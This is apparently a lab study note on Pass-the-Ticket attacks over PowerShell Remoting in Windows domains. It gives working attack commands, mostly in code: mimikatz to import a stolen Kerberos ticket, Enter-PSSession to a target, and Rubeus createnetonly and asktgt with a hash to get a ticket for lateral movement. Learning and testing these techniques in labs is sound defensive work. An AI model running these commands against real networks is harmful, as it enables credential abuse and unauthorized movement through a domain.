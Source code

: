 
## Pass the Ticket with PowerShell Remoting (Windows)
[PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2)

Two listeners are started:
1. HTTP/5985
2. HTTPS/5986

Requirements to create a PowerShell Remoting Session:
1. Administrator privileges
2. Member of Remote Management Users group
or 
1. Explicit PowerShell Remoting permissions in your session configuration

Useful if:
- Non-administrative user account is found with Remote Management Users membership

#### Mimikatz - PowerShell Remoting with Pass the Ticket
Steps:
1. Use mimikatz to import our ticket
`mimikatz.exe`

`privilege::debug`

`kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"`

`exit`

2. PowerShell connect to target machine
`powershell`

`Enter-PSSession -Computername <target>`

#### Rubeus - PowerShell Remoting with Pass the Ticket
Rubeus has the option `createnetonly`, which creates a sacrificial process/logon session ([Logon type 9](https://eventlogxp.com/blog/logon-type-what-does-it-mean/)). The process is hidden by default, but we can specify the flag `/show` to display the process, and the result is the equivalent of `runas /netonly`. This prevents the erasure of existing TGTs for the current logon session.

1. Create a sacrificial process with Rubeus
`Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show`

**Note:** This command will open a new cmd window. In Step 2, in the new window, we'll execute Rubeus to request a new TGT with `/ptt` to import the ticket, then PowerShell Remote to the DC.

2. Pass the ticket for lateral movement
`Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt`

